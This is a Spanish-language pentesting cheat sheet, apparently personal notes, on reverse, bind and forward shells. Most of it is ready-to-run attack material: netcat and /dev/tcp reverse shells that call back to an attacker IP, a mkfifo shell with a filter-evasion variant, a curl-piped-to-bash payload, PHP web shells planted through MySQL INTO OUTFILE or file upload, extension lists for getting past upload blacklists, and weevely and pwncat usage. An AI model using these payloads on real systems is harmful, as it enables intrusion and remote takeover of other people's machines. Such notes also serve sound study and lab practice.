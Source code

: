# Tipos de ReverShell

Tags: #ReverShell #Comandos #Netcat #BindShell

Tenemos diferentes tipos de Revershell este pagina Web:
* [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [ReverseShells-Generator](https://www.revshells.com/) 
* [Cheatsheet-ReverseShells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

La mayoría de las paginas al momento de comprometerlas encontraremos el usuario **www-data** que es el encargado de gestionar la parte de servicios web.

## Webshell/ReverseShell en Kali

```bash 
❯ ls -al /usr/share/webshells/               # En esa ruta tenemos diferetes Revershell o Webshells
```

## Netcat

```bash 
# Netcat nos ayuda a poder hacer 'Banner grabbing, Port scanning, Transferring files, Bind/Reverse shells', puede ser utilizado como 'Modo cliente, Modo servidor'

❯ nc -nv <IP> <port>        # Hacer que Netcat se conecte a un puerto especifico de una IP por TCP
❯ nc -nvu <IP> <port>       # Hacer que Netcat se conecte a un puerto especifico de una IP por UDP
	# n = No DNS
	# u = UDP 
	# v = Verbose


❯ nc -nc <IP> <Port> < file.txt        # Esta es la forma de enviar un archivo (Maquina atacante 'Envia')
❯ nc -nlvp 443 > file.txt              # El archivo que reciba lo colocara en file.txt (Maquina victima 'Recibe')
```

## RCE MySQL

```bash 
# Debemos estar dentro del servicio de MySQL

❯ select '<?php  $output=shell_exec($_GET["cmd"]);echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1; 

# Ahora en la URL podemos ejecutar comandos 
❯ shell.php?cmd=whoami            
```

## Reverse / Bind Shells directamente

```bash 
# Desde la URL de la Web (Maquina victima)

❯ nc -nlvp 443   # Ponernos en escucha con Netcat (Maquina atacante) Linux     

# Para la Revershell en la URL de la web (Maquina victima)
❯ nc -e /bin/bash IP 443
❯ bash -i >& /dev/tcp/IP/443 0>&1
	# Ip = Ip del atacante 

❯ bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"
# Donde debemos de urlencodear el '&'
	& = %26
```

```bash 
# Desde la terminal del SO
❯ /usr/share/Seclists/Web-Shells/FuzzDB/nc.exe     # nc.exe nos ayuda a conseguir una ReverShell en Windows (Ruta en Linux)

❯ nc -nlvp 443                                     # Ponernos en escucha con Netcat (Maquina atacante) 
❯ nc.exe -nv <IP> 443 -e cmd.exe                   # Completar la Reverse shell desde una maquina victima Windows

❯ nc -nlvp 443                                     # Ponernos en escucha con Netcat (Maquina atacante) 
❯ nc -nv <IP> 443 -e /bin/bash                     # Completar la Reverse shell desde una maquina victima Linux
```

## Bind Shell:

```bash
# Desde la terminal del SO

1. ❯ nc.exe -nlvp 443 -e cmd.exe            # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Windows 
1. ❯ nc IP 443                              # Ejecutamos en para completar la Bind Shell (Maquina atacante) Linux


2. ❯ nc -nlvp 443 -c /bin/bash              # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Linux
2. ❯ nc.ex -nv IP 443                       # Ejecutamos en para completar la Bind Shell (Maquina atacante) Windows 
```

## Bypass PHPx Blacklist 

```bash 
# Diferentes extensiones PHP para subir 'Shells' maliciosas 

* php
* php3
* php4
* php5
* php6
* php7
* pht
* phtm
* phtml
* phar

```

## Bypass Web

```bash 
# Byppass en Nginx, subimos el archivo con la extension que permite subir, despues en la url lo cambiamos al formato php y ejecutamos los comandos 

❯ http://IP/uploads/shell.jpg/shell.php?cmd=whoami

	# shell.jpg = Extension que nos deja subir la web
```

```bash 
# Otra forma de evadir la subida de archivos y obtener una Revershell 

❯ weevely generate password ~/Desktop/weevely.jpg     # Creamos un archivo con la extension que nos deja subir 
❯ weevely https://IP/uploads/weevely.jpg/weevely.php password cmd   # Hara automaticamente una revershell con la peticion http request 
	❯ :help                         # Muestra los comandos que podemos utilizar 
	❯ :system_info                  # Muestra la info del sistema 

❯ weevely https://IP/uploads/shell.php password           # Otra forma de conectarse a Weevely obteniendo la Revershell
	❯ ls                            # Listamos el contenido 
```

## RCE en Web

```php
# Para ejecutar comandos en la Web debemos de crear o subir un archivo en el /var/www/html con el siguiente contenido: 

❯ nano cmd.php

	<?php 
		echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
	?>

# Las etiquetas que usamos ahí son 'Pre' de preformateadas y nos sirven para que nos muestre bien el Output. Ya con ese archivo y que la Web interprete 'php' podemos colocar en la url (?cmd=) para colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de 'Atacante'

# Otra manera 
	<?php 
		$output = shell_exec($_GET["cmd"]);
		echo "<pre>$output</pre>";
	?>

```

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

## ReverShell en php:

```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar
```

```bash
# Escucha por Netcat en espera de la Revershell

❯ nc -nlvp 443            # Linux

❯ rlwrap nc -nlvp 443     # Windows 

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

```bash 
❯ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> 443 >/tmp/f          # Podemos usar este comando para hacer una Revershell desde una bash en la maquina victima 
❯ r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4242 >/tmp/f   # Evadir filtros

# Nos debemos de poner en escucha antes de esta manera
❯ nc -nlvp 443                   # Escucha en la maquina de atacante
```

```bash 
❯ pwncat-cs -lp 443                         # Podemos usar esta herramienta llamada 'Pwncat'
	❯ run enumerate                        # Enumera todo el sistema 
	❯ run enumerate.user                   # Enumeras los usuarios
	❯ run enumerate.system.network         # Enumeras las interfaces de la maquina 
	❯ back                                 # Nos coloca en la ruta de la terminal de la victima
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahí pode colocar comandos y conectarnos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```